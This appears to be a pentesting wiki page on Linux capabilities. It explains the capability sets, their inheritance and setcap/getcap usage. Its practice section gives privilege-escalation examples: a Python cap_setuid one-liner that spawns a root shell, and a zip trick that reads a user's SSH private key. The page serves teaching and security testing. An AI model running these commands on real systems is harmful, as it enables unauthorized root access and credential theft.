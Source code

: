 ```yaml
---
authors: 'ShutdownRepo, p0dalirius'
category: infra
---
```


# 🛠️ Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

Basic processes : Have no capabilities (file access is controlled by traditional file privileges).

(Binary) files : Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set | Description |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
 * drop any capability from any set
 * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

Non-exhaustive capability list :

| Capability | Description |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing |
| `CAP_AUDIT_WRITE` | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports |

## Practice

Setting a file's capabilities :

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

Exploiting capabilities :

* Empty capabilities

 If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

> [!TIP]
> To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file` 

Other classic examples :

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

End notes :

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

[https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work)

[https://blog.ploetzli.ch/2014/understanding-linux-capabilities/](https://blog.ploetzli.ch/2014/understanding-linux-capabilities/)

[https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/](https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/)

